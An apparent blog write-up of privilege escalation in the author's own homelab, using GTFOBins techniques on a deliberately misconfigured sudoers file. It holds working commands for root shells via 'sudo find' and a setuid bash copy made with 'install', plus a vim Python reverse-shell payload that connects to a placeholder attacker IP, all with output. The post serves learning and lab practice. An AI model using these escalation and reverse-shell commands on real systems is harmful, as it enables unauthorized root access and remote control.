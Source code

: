 ```yaml
---
title: "Bypassing Local Security with Standard Binaries"
excerpt: A few examples of how one might exploit poorly configured systems using standard Linux programs
date: 2025-09-23
---
```


I recently discovered the website [GTFOBins](https://gtfobins.github.io/) while working on a CTF-challenge. To cite the website:

> The project collects legitimate functions of Unix binaries that can be used to break out of restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.
>
> It is important to note that this is not a list of exploits, and the programs listed here are not vulnerable per se, rather, GTFOBins is a compendium about how to live off the land when you only have certain binaries available.

I toyed around with some common binaries, just to see how easy privilege escalation can be under certain circumstances.

### Setting up a Misconfigured System

In my Kali Linux homelab I started by setting up a new user `dummy` with substantially lower privileges. This is done with `sudo adduser dummy`. I decided to allow this user to run the binaries `find` and `install` with sudo-privileges, as this seems like a somewhat realistic real-world scenario (granted, this should obviously still not occur in privilege-sensitive systems). To do this, we edit (as root) the `sudoers` file with `sudo visudo` and add the following two lines:
```text
dummy ALL=(ALL) NOPASSWD: /usr/bin/find
dummy ALL=(ALL) NOPASSWD: /usr/bin/install
```
As long as `sudoers` contains the line
```text
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```
we can now use `sudo find` and `sudo install` without appending `/usr/bin/` every time.

### Escalating with `find`

First, we simulate lower privileges by logging onto the dummy account with `su - dummy` and entering the password. Then the syntax is very straightforward:
```console
┌──(dummy㉿kali)-[~]
└─$ sudo find . -exec /bin/sh \; -quit                                                         
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
In more detail, this is what the snippet does:
1. `find` starts searching in the current directory.
2. `-exec /bin/sh \;` tells `find` to spawn a new shell each time a file is encountered.
3. `-quit` tells `find` to stop spawning shells after the first one.
4. Since we ran the command with `sudo`, it spawns **root** shells, and we have access to the file system.

### Escalating with `install`

The entire "exploit" goes as follows:
```console
┌──(dummy㉿kali)-[~]
└─$ sudo install -m 6777 /bin/bash ~/rootshell
┌──(dummy㉿kali)-[~]
└─$ ~/rootshell -p                                                                             
rootshell-5.2# whoami
root
rootshell-5.2# id
uid=1001(dummy) gid=1001(dummy) euid=0(root) egid=0(root) groups=0(root),100(users),1001(dummy)
```
Here is a breakdown of the above procedure:
1. The idea is to copy the binary `/bin/bash` to the home directory with _setuid_ root permissions.
2. The key part is the `-m 6777`, which sets the setuid bit so it should run as root.
    - `-m` sets the mode of the file. 6777 is an _octal_ representation of those permissions.
    - Each owner/group/others has 7 = 4+2+1 = rwx (read, write, execute), so 777 = full access for everyone.
    - The leading digit being `6xxx` tells us that we're enabling setuid and setgid. Setuid (4xxx) does the following: when you run the file, it executes with the **user ID** of the file’s owner (instead of the one running it). If root owns the file, then the program runs with root privileges. Setgid works similarly, but with the **group ID** instead.
3. We name the copy `rootshell` and save it in `~/`.
4. Lastly, we run the binary with the option `-p`, so it doesn’t drop privileges. This gives us a root shell with access to the file system.

### Reverse Shell Using VIM

The coolest application of privilege escalation I found was through the standard `vim` binary. Usually, I simply think of vim as a simple text-editor and code-writing environment, so it would not have crossed my mind that vim can be leveraged to obtain reverse shells with (potentially) root privileges. The one restriction here is that vim must be compiled with Python support.

On our Kali attacker machine, we set up a listener by running `socat file:'tty',raw,echo=0 tcp-listen:8787`, where the port 8787 was chosen arbitrarily. Note that the ticks in `'tty'` may have to be replaced by back-ticks for the listener to be set up correctly.

Next, on the target machine, export the variables declaring the host IP and port: 
```text
export RHOST=<Attacker_IP>
export RPORT=8787
```
Finally, run the following command on the target, using vim:
```text
vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
vim.command(":q!")'
```
This spawns an interactive reverse shell on the attacker machine:
```console
┌──(kali㉿kali)-[~]
└─$ socat file:`tty`,raw,echo=0 tcp-listen:8787 
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
If the target was root, then the reverse shell has root privileges as well, oherwise it will have the privileges of whatever user was active on the target. Here is a step by step breakdown of the above payload, since it is relatively cluttered:

1. `vim -c '...'`
    - `vim -c` runs an **Ex command** at startup.
    - Here, the command is a `:py` block (Python code executed inside vim).
2. `:py import vim,sys,socket,os,pty; ...`
    - Runs Python code inside vim (if Vim was compiled with Python support).
3. `s=socket.socket()`
    - Creates a TCP socket object in Python.
4. `s.connect((os.getenv("RHOST"), int(os.getenv("RPORT"))))`
    - Connects the socket to the IP (`RHOST`) and port (`RPORT`) defined in environment variables.
    - This is the reverse shell connection: **the system running vim connects back to an attacker's machine.**
5. `[os.dup2(s.fileno(), fd) for fd in (0,1,2)]`
    - Redirects standard input (`0`), standard output (`1`), and standard error (`2`) to the socket.
    - This allows the attacker to interact with the shell remotely.
6. `pty.spawn("/bin/sh")`
    - Spawns a pseudo-terminal running `/bin/sh`.
    - Makes the reverse shell more interactive, behaving like a real terminal.
7. `vim.command(":q!")`
    - Tells vim to quit immediately after launching the reverse shell.
    - Leaves only the shell running, hidden from view.

An important detail is that you need to replace `py` by `py3` if vim is compiled with Python3. To check whether this is the case, run `vim --version | grep python`. If you don't see something like `+python3`, then add this functionality:
```text
sudo apt update
sudo apt install vim-nox
```











